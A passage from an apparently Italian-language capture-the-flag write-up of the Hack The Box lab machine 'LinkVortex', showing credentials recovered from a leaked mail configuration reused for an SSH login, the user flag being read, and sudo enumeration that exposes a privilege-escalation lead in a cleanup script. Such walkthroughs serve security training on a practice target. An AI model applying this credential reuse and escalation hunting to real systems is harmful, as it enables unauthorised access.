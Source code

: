 ```
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

Si sono effettuati altri tentativi per accedere ad una shell remota.

- bob@10.10.11.47:fibber-talented-worth

Accesso ottenuto.

```
bob@linkvortex:~$ ls -lah
total 28K
drwxr-x--- 3 bob  bob  4.0K Nov 30 10:07 .
drwxr-xr-x 3 root root 4.0K Nov 30 10:07 ..
lrwxrwxrwx 1 root root    9 Apr  1  2024 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 bob  bob  3.7K Jan  6  2022 .bashrc
drwx------ 2 bob  bob  4.0K Nov  1 08:40 .cache
-rw-r--r-- 1 bob  bob   807 Jan  6  2022 .profile
-rw-r----- 1 root bob    33 Mar 19 21:48 user.txt

bob@linkvortex:~$ cat user.txt
e67ed2c07cbdc3c***************f0

bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

> user.txt:69ee55437ca082***************f3


```
bob@linkvortex:/opt/ghost$ ls -lah
total 48K
drwxr-xr-x  4 root    root 4.0K Nov 30 10:07 .
drwxr-xr-x  5 root    root 4.0K Nov 30 10:07 ..
-rw-------  1 root    root  521 Apr  1  2024 Dockerfile.ghost
-rw-------  1 root    root  185 Apr  1  2024 Dockerfile.ghost-db
-rwxr--r--  1 root    root  745 Nov  1 08:46 clean_symlink.sh
-rw-r--r--  1 root    root  645 Apr  1  2024 config.production.json
drwxr-xr-x 11    1000 root 4.0K Apr  1  2024 content
-rw-------  1 root    root 1.4K Apr  1  2024 docker-compose.yml
-rw-------  1 root    root  238 Apr  1  2024 entry.sh
drwxr-xr-x  8 _laurel root 4.0K Mar 19 21:45 mysql
-rw-------  1 root    root 5.2K Apr  1  2024 wait-for-it.sh
```
